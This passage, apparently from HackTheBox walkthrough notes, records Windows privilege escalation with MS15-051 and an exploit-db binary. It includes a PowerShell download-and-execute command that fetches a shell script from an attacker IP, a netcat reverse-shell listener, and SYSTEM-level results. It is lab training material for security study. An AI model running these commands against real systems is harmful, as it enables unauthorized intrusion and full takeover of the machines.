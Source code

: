 ``` bash
C:\inetpub\drupal-7.54>ms15-051x64.exe "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
ms15-051x64.exe "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1076 created.
==============================
```

``` bash
$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 53968
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```

[CVE-2015-1701](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/007-bastard_drupa7.54_MS15-051-6.3.9600#cve-2015-1701)

### 6.3.9600 rgnobj Integer O-flow

``` bash
C:\Users\kostas\Desktop>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
System Type:               x64-based
```

``` bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

``` bash
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

[https://github.com/leecybersec/walkthrough/tree/master/hackthebox/006-optimum_httpfileserver-2.3_ms16-098-6.3.9600#rgnobj-integer-overflow](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/006-optimum_httpfileserver-2.3_ms16-098-6.3.9600#rgnobj-integer-overflow)

### 6.1.7600 Ancillary Func Driver

[https://www.exploit-db.com/exploits/40564](https://www.exploit-db.com/exploits/40564)
